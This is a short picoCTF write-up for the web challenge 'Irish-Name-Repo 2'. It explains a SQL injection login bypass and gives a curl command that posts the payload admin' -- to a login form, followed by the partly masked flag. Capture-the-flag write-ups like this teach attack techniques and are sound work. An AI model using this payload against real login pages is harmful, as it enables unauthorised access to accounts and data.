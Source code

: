 # picoCTF – Irish-Name-Repo 2 

* **Category:** Web
* **Points:** 300

## Challenge

>  Do you think you can log us in? Try to see if you can login!

## Solution

Similar to ** Irish-Name-Repo 1 ** make a request to login page using crafterd SQL query.

Using *curl* make a request with username field containing text **admin** followed by **--**. The two hypens will comment out rest of the query which will get executed in the SQL server.
```
curl "<URL>/login.php" -d "username=admin' --&password=&debug=1"
```


```
picoCTF{m0R3_SQL_plz_xxxx}
```
